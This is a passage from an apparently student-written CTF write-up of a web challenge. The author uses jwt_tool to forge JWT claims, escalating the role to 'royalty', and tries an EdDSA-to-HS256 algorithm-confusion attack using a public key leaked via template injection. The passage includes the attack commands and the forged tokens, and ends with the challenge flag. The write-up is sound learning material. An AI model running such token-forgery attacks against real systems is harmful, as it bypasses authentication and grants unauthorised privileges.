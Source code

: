 {% code overflow="wrap" %}

```
03_07_1341_BC
```

{% endcode %}

Let's forge a JWT with the correct `ROLE` and `CURRENT_DATE`.

{% code overflow="wrap" %}

```bash
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoiY29tbW9uZXIiLCJDVVJSRU5UX0RBVEUiOiIwN18wOV8yMDI0X0FEIiwiZXhwIjo5NjMzMzcxNDI5OX0.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ -I -pc ROLE -pv royalty -pc CURRENT_DATE -pv 03_07_1341_BC

eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoicm95YWx0eSIsIkNVUlJFTlRfREFURSI6IjAzXzA3XzEzNDFfQkMiLCJleHAiOjk2MzMzNzE0Mjk5fQ.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ
```

{% endcode %}

Still can't use it. Tried to use SSTI to get `{{PRIVATE_KEY}}` but doesn't print. We can print the `{{PUBLICKEY}}` though.

{% code overflow="wrap" %}

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2
```

{% endcode %}

Save it to a file and use algorithm confusion.

{% code overflow="wrap" %}

```bash
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJFZERTQSJ9.eyJST0xFIjoiY29tbW9uZXIiLCJDVVJSRU5UX0RBVEUiOiIwN18wOV8yMDI0X0FEIiwiZXhwIjo5NjMzMzcxNDI5OX0.53yJHr1ZxEYzRIrX2GEDao3kTbAY-W3y-9vOHZvRCmYtD49ty-EIo7KyjpwPEEmz-FxxUq2rynETCKiW_6ZIBQ -I -pc ROLE -pv royalty -pc CURRENT_DATE -pv 03_07_1341_BC -X k -pk pubkey

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJST0xFIjoicm95YWx0eSIsIkNVUlJFTlRfREFURSI6IjAzXzA3XzEzNDFfQkMiLCJleHAiOjk2MzMzNzE0Mjk5fQ.c5OwTPXb7qLz-R0mAhBj03jauzQEcnRBcor9KVyW8Q8
```

{% endcode %}

It doesn't work! I tried various formats for the public key, but all failed. I assumed I must need the `PRIVATE_KEY` but couldn't use `_` due to the filter list. I was confident there was some unicode issue; otherwise, why include all those symbols in the filter list?

After the CTF, I found out that key confusion was the correct approach (signing with the public key and switching to symmetric); I must have just had the wrong format for the public key. Overall, it's still a pretty cool challenge, but I think the public key should have been in a usable format, and the filter list was an unneeded distraction.

Flag: `csawctf{cat_fails_challenge}`
